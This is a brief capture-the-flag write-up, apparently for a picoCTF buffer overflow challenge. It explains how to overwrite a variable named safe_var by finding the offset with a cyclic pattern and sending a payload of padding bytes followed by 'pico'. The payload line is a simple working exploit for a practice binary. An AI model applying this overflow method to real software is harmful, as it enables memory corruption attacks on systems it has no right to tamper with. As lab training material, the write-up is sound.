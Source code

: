 # info 
- u will just need to over write the safe_var with pico so just use cyclic to know the offset num and send your payload
 payload => b'A' * offset + b'pico'